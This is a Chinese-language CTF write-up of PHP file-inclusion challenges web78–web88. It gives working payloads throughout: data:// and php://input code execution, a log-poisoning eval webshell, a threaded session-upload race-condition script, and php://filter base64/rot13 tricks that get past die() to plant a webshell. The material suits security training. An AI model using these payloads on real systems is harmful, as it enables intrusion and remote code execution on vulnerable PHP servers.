### web78

开启容器

人畜无害的前端



伪协议
data 协议可以命令执行

`/?file=data://text/plain/,<?php system("tac /f*");?>`


`/?file=data://text/plain,<?php%20system('ls');?>`

`/?file=data://text/plain,<?php%20system('tac flag.php');?>`



### web79

开启容器

会替换`php`为`???`



不能直接用`flag.php`
还有`<?php`标签

需要用短标签代替

`?file=data://text/plain,<?=%20system('tac fla*');?>`



这里罗列下`php短标签`

```php
<? echo '123';?>  #前提是开启配置参数short_open_tags=on
<?=(表达式)?>  等价于 <?php echo (表达式)?>  #不需要开启参数设置
<% echo '123';%>   #开启配置参数asp_tags=on，并且只能在7.0以下版本使用
<script language="php">echo '123'; </script> #不需要修改参数开关，但是只能在7.0以下可用。
```

这里还可以用
`/?file=data:text/plain,<?pHp system('tac fla*');?>`


### web80

开启容器



`data`协议也无法使用

我们使用 pHp://input ，沿用上一题的 payload：

```cobol
?file=pHp://input
```

POST 写入：

```php
<?php system('ls')?>
```





得到 flag

官方 wp 用日志

`/?file=/var/log/nginx/access.log`


可以用 User-Agent 注入一句话木马

`<?php @eval($_POST['attack']);?>`





得到 flag

### web81

开启容器

`php`、`data`、`:`被过滤



伪协议废了，用上一题的日志文件包含 getshell



蚁剑链接



### web82

开启容器

.也被过滤



日志也无法访问

这里用脚本

```python
import io
import requests
import threading

sessid = 'jiuzhen'
data = {1:"system('cat fl0g.php');"}
url='http://387245b4-8e28-4158-93a8-e50c4871a653.challenge.ctf.show'

def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post(url, data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>jiuzhen'}, files={'file': ('jiuzhen.txt',f)}, cookies={'PHPSESSID': sessid} )

def read(session):
    while True:
        resp = session.post(url+'?file=/tmp/sess_'+sessid,data=data)
        if 'jiuzhen' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")

if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in range(1,30):
            threading.Thread(target=write,args=(session,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()

    event.set()
```



> 原理
> 条件竞争。
> 例如，当打开一个文件时，就无法删除该文件。  
> 所以，只要在上传文件的瞬间访问它，服务器来不及执行删除操作，就无法删除该文件。

### web83

开启容器


加了两个函数：

```bash
session_unset()：
释放当前在内存中已经创建的所有$_SESSION变量，但不删除session文件。

session_destroy()：
删除当前用户对应的session文件以及释放sessionid。
```

但条件竞争使用的是上传那一瞬间创建的  session，所以不影响。

依旧使用 web82 的脚本



### web84

开启容器

`system(rm -rf /tmp/*);`
因为  `session.upload_progress.cleanup = on`  会清空对应 session 文件中的内容，所以加上删除对竞争的影响不大。

依旧使用 web82 的脚本。





### web85

开启容器



增加内容过滤，如果有`<`就 die，不影响竞争。

依旧使用 web82 的脚本。



### web86

开启容器



`dirname(__FILE__)`：表示当前文件的绝对路径。  
`set_include_path()`：用来设置 include 的路径，即 include() 可以不提供文件的完整路径。

> include 文件时，当包含路径既不是相对路径，也不是绝对路径时，会先查找 include_path 所设置的目录。

web82 脚本里用的是完整路径，不影响竞争。

继续用脚本

### web87



除了关键词的过滤，新增  file_put_contents  函数，将会往 $file 里写入  `<?php die('大佬别秀了');?> `和我们 post 传入的 $content 内容。

由于 $content 参数可控，因此我们可以写入恶意的 php 代码或者一句话木马，但是  `<?php die('大佬别秀了');?>` 这段 PHP 代码它会立即终止脚本执行并输出消息 "大佬别秀了"，因此我们还需要绕过这个  die() 函数。

绕过死亡 die

题目中  $content 被加上了 `<?php die('大佬别秀了');?> `，我们可以使用 `php://filter/write=convert.base64-decode` 先对其进行解码，在解码过程中，字符 <、?、空格、(、'、)、;、>，这些字符不符合 base64 编码的字符范围都将先被移除，最终剩下的用于解码的字符只有 phpdie 和我们 post 传入的内容。

`php://filter/write=convert.base64-decode/resource=1.php`

因为对上面这段代码进行两次 url 编码，编码后，得到的结果如下

`/?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30`

对所有字符进行编码

同时，用 post 进行传参 content

```php
<?php @eval($_GET['hack']);?>
```

然后对 content 内容进行 base64 加密

> 由于  Base64 解码是以 4 个字符为一组进行的，这里移除后只剩下 6 个字符，因此我们随便加两个合法字符补全，让其 base64 解码成功，后面再继续传入经过 base64 编码的  payload，也可以被正常解码。

太细了！！



木马注入





第二种解法，针对绕过死亡 die，可以直接使用 rot

这里编码采取凯撒 13 来操作（rot13 再操作一次为本身）
使得不会被认定为 php 代码，绕过死亡 die

`<?php die('大佬别秀了');?>` 经过 rot13 编码会变成` <?cuc qrv(); ?>`，如果 php 未开启短标签，则不会认识这段代码，也就不会执行。

file 传入 `php://filter/write=string.rot13/resource=sh.php`

两次 url 编码：

```php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%32%65%25%37%30%25%36%38%25%37%30
```

将一句话木马进行 rot13 解码后传入

```php
<?php @eval($_GET['hack']);?>
```



`<?cuc @riny($_TRG['unpx']);?>`



### web88

开启容器



这关我们还是继续用伪协议

`<?php system('tac fl0g.php'); ?>`
对这段代码进行编码得到如下代码

```php
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmwwZy5waHAnKTsgPz4
```


